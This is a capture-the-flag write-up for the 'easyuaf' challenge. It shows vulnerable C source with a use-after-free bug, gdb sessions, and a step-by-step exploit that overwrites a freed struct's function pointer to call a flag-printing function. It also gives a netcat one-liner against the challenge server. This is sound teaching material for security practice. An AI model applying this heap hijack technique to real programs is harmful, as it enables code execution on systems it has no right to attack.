


# easyuaf

## Solution 

1. Allocate space for `org`.
2. "delete" it.
3. Allocate space for `person`. `Personal_num = 4199030`, `business_num` = 0.
4. Print a namecard with the corresponding `org` and `person`.

Run:

`python3 -c 'print("2","0","whatever","1","3","0","1","1","anything","1234","4199030","0","4","0","1", sep="\n")' | nc challs.nusgreyhats.org 10525`

## Thought process

Examine the source code first.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define BANNER "NameCard Printing Service v0.1"
#define CAPACITY 128

void ezflag()
{
    system("cat ./flag.txt");
}

typedef struct person
{
    char name[24];
    int id;
    int age;
    int personal_num;
    int business_num;
} person;

typedef struct org
{
    char name[24];
    int id;
    void (*display)(struct org*, struct person*);
} org;

person* persons[CAPACITY];
org* orgs[CAPACITY];

void display1(org* org, person *person)
{
    puts("-------------------------------------");
    printf("*** Org:  %-8s  %d ***\n", org->name, org->id);
    printf("--- Name: %s\n", person->name);
    printf("--- ID:   %d\n", person->id);
    printf("--- Age:  %d\n", person->age);
    printf("--- Personal Contact:  %d\n", person->personal_num);
    printf("--- Business Contact:  %d\n", person->business_num);
    puts("-------------------------------------");
}

void display2(org* org, person *person)
{
    puts("-------------------------------------");
    printf("=== Org:  %-8s  %d ===\n", org->name, org->id);
    printf("+++ Name: %s\n", person->name);
    printf("+++ ID:   %d\n", person->id);
    printf("+++ Age:  %d\n", person->age);
    printf("+++ Personal Contact:  %d\n", person->personal_num);
    printf("+++ Business Contact:  %d\n", person->business_num);
    puts("-------------------------------------");
}

void display3(org* org, person *person)
{
    puts("-------------------------------------");
    printf("### Org:  %-8s  %d ###\n", org->name, org->id);
    printf(">>> Name: %s\n", person->name);
    printf(">>> ID:   %d\n", person->id);
    printf(">>> Age:  %d\n", person->age);
    printf(">>> Personal Contact:  %d\n", person->personal_num);
    printf(">>> Business Contact:  %d\n", person->business_num);
    puts("-------------------------------------");
}

void usage()
{
    puts("---------------------");
    puts("1. New person");
    puts("2. New org");
    puts("3. Delete org");
    puts("4. Print name card");
    puts("5. Exit");
    puts("---------------------");
}

void prompt()
{
    printf("> ");
}

void readstr(char* dest, int len)
{
    fgets(dest, len, stdin);
    if (dest[strlen(dest)-1] == '\n') dest[strlen(dest)-1] = 0;
}

int readint()
{
    char input[256]; fgets(input, 256, stdin);
    if (input[0] == '\n') input[0] = ' ';
    return strtol(input, 0, 10);
}

void new_person()
{
    person *res = (person*) malloc(sizeof(person));
    // printf("res: %p\n", res);

    while (1)
    {
        printf("ID (0-%d): ", CAPACITY-1);
        res->id = readint();
        if (res->id < 0 || res->id >= CAPACITY) puts("Invalid ID");
        else if (persons[res->id] != 0)
            printf("ID %d is already used by another person. Choose a different ID.\n", res->id);
        else break;
    }

    printf("Name (max 23 chars): ");
    readstr(res->name, 24);

    printf("Age: ");
    res->age = readint();

    printf("Personal Contact Number: ");
    res->personal_num = readint();

    printf("Business Contact Number: ");
    res->business_num = readint();

    persons[res->id] = res;
}

void new_org()
{
    org *res = (org*) malloc(sizeof(org));
    // printf("res: %p\n", res);

    while (1)
    {
        printf("ID (0-%d): ", CAPACITY-1);
        res->id = readint();
        if (res->id < 0 || res->id >= CAPACITY) puts("Invalid ID");
        else if (orgs[res->id] != 0)
            printf("ID %d is already used by another org. Choose a different ID.\n", res->id);
        else break;
    }

    printf("Name (max 23 chars): ");
    readstr(res->name, 24);

    int style;
    while (1)
    {
        printf("Style (1-3): ");
        style = readint();
        if (style >= 1 && style <= 3) break;
        puts("Invalid style.");
    }

    if (style == 1) res->display = display1;
    if (style == 2) res->display = display2;
    if (style == 3) res->display = display3;

    orgs[res->id] = res;
}

void delete_org()
{
    printf("ID (0-%d): ", CAPACITY-1);
    int id = readint();
    if (id < 0 || id >= CAPACITY) puts("Invalid ID");
    else if (orgs[id] == 0)
        printf("No org created with ID %d.\n", id);
    else
    {
        free(orgs[id]);
        printf("Deleted org %d.\n", id);
    }
}

void print_card()
{
    int org_id;
    while (1)
    {
        printf("Org ID (0-%d): ", CAPACITY-1);
        org_id = readint();
        if (org_id < 0 || org_id >= CAPACITY) puts("Invalid org ID");
        else if (orgs[org_id] == 0)
            printf("No org created with ID %d. Choose a different ID.\n", org_id);
        else break;
    }

    int person_id;
    while (1)
    {
        printf("Person ID (0-%d): ", CAPACITY-1);
        person_id = readint();
        if (person_id < 0 || person_id >= CAPACITY) puts("Invalid person ID");
        else if (persons[person_id] == 0)
            printf("No person created with ID %d. Choose a different ID.\n", org_id);
        else break;
    }

    org *o = orgs[org_id];
    person *p = persons[person_id];

    // printf("display func @ %p\n", o->display);
    o->display(o, p);
}

void reset()
{
    memset(persons, 0, sizeof(persons));
    memset(orgs, 0, sizeof(orgs));
}

void setup_io()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main()
{
    // org* o1 = (org*)malloc(sizeof(org));
    // person* p1 = (person*)malloc(sizeof(person));
    // printf("o1: %p\n", o1);
    // printf("p1: %p\n", p1);
    // free(o1);
    // person* p2 = (person*)malloc(sizeof(person));
    // printf("p2: %p\n", p2);

    reset();

    setup_io();
    puts(BANNER);
    usage();

    // printf("%d %d\n", sizeof(org), sizeof(person));

    int opt;
    do {
        prompt();
        opt = readint();

        switch (opt)
        {
        case 1:
            new_person();
            break;
        case 2:
            new_org();
            break;
        case 3:
            delete_org();
            break;
        case 4:
            print_card();
            break;
        default:
            break;
        }
    } while (opt != 5);

    puts("Thanks for using this service. Please come again next time.");

    return 0;
}
```

Notice that there is an `ezflag()` function, and a function pointer in `org`. The challenge description also mentioned that a use-after-free (UAF) vulnerability is present. Therefore, the attack path should be to overwrite the function pointer in `org` to point to `ezflag()`, leveraging the UAF vulnerability. Then, call the `display()` function in `org` through `print_card()`. A possible path could be to create and then `free()` the `org`, allocate a `person` and populate it with relevant data, and call `print_card()` for the organisation that was already freed.

First, examine the binary for protections and type:



Assuming the remote machine does not have ASLR, it would be trivial to set the org's display() function to point to ezwin(). The binary itself is also 64-bit.

Since there's no PIE, disassemble the binary in `gdb` and find the address of `ezwin()`. Run the program once to load it into memory.



Note: 0x401276 = 4 199 030

Next, examine the structure of `person` and `org` to determine how an allocated `person` would overwrite data in a freed `org`.

```C
typedef struct person
{
    char name[24];
    int id;
    int age;
    int personal_num;
    int business_num;
} person;

typedef struct org
{
    char name[24];
    int id;
    void (*display)(struct org*, struct person*);
} org;
```

The first variable of both structs uses a char array of size 24. They also use an `int` for id. However, they differ in `age`, `personal_num` and `business_num` for `person` and the function pointer `display` for `org`. To overwrite the function pointer `display` for the old org in the heap, try to enter recognisable values in `age`, `personal_num` and `business_num` (e.g. 4096, 4096\*2, 4096\*3 as they corespond to 0x1000, 0x2000 and 0x3000 respectively).

Here is a test case to check which fields in `person` correspond to the `display` function pointer in `org`.

```
NameCard Printing Service v0.1
---------------------
1. New person
2. New org
3. Delete org
4. Print name card
5. Exit
---------------------
> 2
ID (0-127): 0
Name (max 23 chars): 1234
Style (1-3): 1
> 3
ID (0-127): 0
Deleted org 0.
> 1
ID (0-127): 1234
Invalid ID
ID (0-127): 0
Name (max 23 chars): 1234
Age: 4096
Personal Contact Number: 8192
Business Contact Number: 12288
> 4
Org ID (0-127): 0
Person ID (0-127): 0

Program received signal SIGSEGV, Segmentation fault.
0x0000300000002000 in ?? ()

```

It appears that `personal_num` and `business_num` are the fields of interest (0x3000 upper 4 bytes, 0x2000 lower 4 bytes). Set `personal_num` to 4199030(=0x401276) to overwrite `display`. `business_num` should be 0. The other fields are irrelevant.

```
NameCard Printing Service v0.1
---------------------
1. New person
2. New org
3. Delete org
4. Print name card
5. Exit
---------------------
> 2
ID (0-127): 0
Name (max 23 chars): 1234
Style (1-3): 1
> 3
ID (0-127): 0
Deleted org 0.
> 1
ID (0-127): 1234
Invalid ID
ID (0-127): 0
Name (max 23 chars): 1234
Age: 4444
Personal Contact Number: 4199030
Business Contact Number: 0
> 4
Org ID (0-127): 0
Person ID (0-127): 0
[Detaching after vfork from child process 199420]
cat: ./flag.txt: No such file or directory
```

It appears the exploit works locally! Time to try it on the remote endpoint.

```
nc challs.nusgreyhats.org 10525
NameCard Printing Service v0.1
---------------------
1. New person
2. New org
3. Delete org
4. Print name card
5. Exit
---------------------
> 2
ID (0-127): 0
Name (max 23 chars): asd
Style (1-3): 1
> 3
ID (0-127): 0
Deleted org 0.
> 1
ID (0-127): 0  
Name (max 23 chars): 1234
Age: 1234
Personal Contact Number: 4199030
Business Contact Number: 0
> 4
Org ID (0-127): 0
Person ID (0-127): 0
<FLAG REDACTED>
```

<details>
<summary>Flag</summary>
grey{u_are_feeling_good?}
</details>

